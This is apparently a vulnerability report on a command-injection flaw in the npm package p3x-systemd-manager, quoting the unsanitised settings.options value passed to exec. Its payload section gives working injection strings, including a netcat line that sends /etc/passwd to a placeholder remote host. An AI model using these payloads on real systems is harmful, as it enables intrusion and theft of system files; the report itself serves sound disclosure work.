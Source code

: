 # Command Injection in p3x-systemd-manager
## Basic information
Vulnerability Author: Li MuFeng(mufeng2022@hust.edu.cn)

Vulnerable npm package: p3x-systemd-manager

Npm url: https://www.npmjs.com/package/p3x-systemd-manager

Github url: https://github.com/patrikx3/systemd-manager

Vulnerable version: <= v2024.4.113

Vulnerable file: src/watchdog.js
```js
module.exports = (settings) => {
    ...
    const options = settings.options || '';
    const command = `${settings.sudo ? 'sudo ' : ''}systemctl --plain --no-pager --no-legend ${options} ${types}`;
    ...
}

```
In src/watchdog.js, line 135. The value of the input parameter 'settings.options' is not checked and directly concatenated into the constant 'command'. 

```js
exec(command, {
maxBuffer: 10 * 1024 * 1024
}, 
...
)

```
On line 39 of the same file. The constant 'command' is passed to function 'exec' in a callback function, which leads to a potential Command Injection Vulnerability.

## Payload
settings.js:
```js
{
    ...
    "options": "& touch hack.txt #"
    ...
}

// payload1: " || touch hack.txt && "
// payload2: " || nc {hostIP} {port} < /etc/passwd &&"
```
Payload1 is used to create a hack. txt file.

Payload2 is used to transfer files to remote servers.

Through carefully constructed payloads, attackers can execute any command as they want.

## Exploit
Environment: Linux, Node.js

Clone the repository and run following commands to exploit:
```
npm i
npm start
```